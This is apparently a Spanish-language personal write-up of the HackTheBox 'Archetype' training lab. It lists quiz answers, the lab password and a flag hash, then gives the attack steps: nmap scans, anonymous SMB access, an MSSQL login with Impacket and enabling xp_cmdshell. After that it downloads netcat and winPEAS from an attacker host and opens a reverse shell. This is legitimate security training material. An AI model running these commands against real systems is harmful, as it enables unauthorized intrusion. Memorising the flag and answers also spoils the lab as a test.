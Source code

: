 
1)¿Qué puerto TCP aloja un servidor de base de datos?
	1433

2)¿Cuál es el nombre del recurso compartido no administrativo disponible a través de SMB?
	backups
	![[Archetype6.png]]

3)¿Cuál es la contraseña identificada en el archivo del recurso compartido SMB?
	M3g4c0rp123

4)¿Qué script de la colección Impacket se puede utilizar para establecer una conexión autenticada a un servidor Microsoft SQL Server?
	mssqlclient.py

5)¿Qué procedimiento almacenado extendido de Microsoft SQL Server se puede utilizar para generar un intérprete de comandos de Windows?
	xp_cmdshell
	Es una función de SQL Server que permite ejecutar comandos del sistema operativo desde consultas SQL. Está deshabilitada por defecto

6)¿Qué script se puede utilizar para buscar posibles rutas para escalar privilegios en hosts Windows?
	Winpeas
	es una herramienta para Windows que automatiza la búsqueda de posibles vectores de **escalada de privilegios**.

7)¿Qué archivo contiene la contraseña del administrador?




---
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.217.189
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.217.189 -oG allports
extractPorts allports
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669 10.129.217.189 -oN target
```

![[Archetype1.png]]

![[Archetype2.png]]

![[Archetype3.png]]

![[Archetype4.png]]
![[Archetype5.png]]
Por el ttl sabemos que es una maquina windows
*Puertos relevantes:*
`445` Es de [[smbclient]] y por lo que entiendo, dice que al final de todo en smb-security, nos podemos conectar como usuario guest


# Intrusion a la maquina por [[smbclient]]

```shell
smbclient -L 10.129.217.189 -p 445 -N              / Listamos los directorios
smbclient //10.129.217.189/backups -p 445 -N       / Entramos al directorio backups
```

![[Archetype7.png]]
Descargamos el archivo que esta en el directorio backups, y luego lo abrimos
![[Archetype8.png]]
Nos da dos datos relevantes:
Password=M3g4c0rp123
User ID=ARCHETYPE/sql_svc

# Nos conectamos a la base de datos con impacket mssqlclient

Nos conectamos con impacket
`impacket-mssqlclient ARCHETYPE/sql_svc@10.129.217.189 -windows-auth`

![[Archetype10.png]]

Vamos a chequear con el comando `SELECT is_svrolemember('sysadmin')` si somos admin, si nos da de resultado 1 es true

![[Archetype11.png]]


#### Ahora activamos el xp_cmdshell ya que estaba desactivado

[Cheatsheet de comandos mssql](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
Vamos a activar el xp_cmdshell por que por defecto viene desactivado

```mssql
EXEC sp_configure 'show advanced options', 1; — priv  
RECONFIGURE; — priv  
EXEC sp_configure 'xp_cmdshell', 1; — priv  
RECONFIGURE; — priv
```

Ahora hacemos la prueba con `xp_cmdshell "whoami"` para ver si da output
![[Archetype12.png]]
Y como podemos ver responde que somos archetype/sql_svc





https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.16 443"

![[Archetype14.png]]
![[Archetype13.png]]

rlwrap nc -lvnp 4444
![[Archetype16.png]]

![[Archetype15.png]]
3e7b102e78218e935bf3f4951fec21a3

wget http://10.10.16.16/winPEASx64.exe -outfile winPEASx64.exe

desde la powershell pudimos ejectar el winpeasx64.exe
# Creditos
Writeup Oficial HackTheBox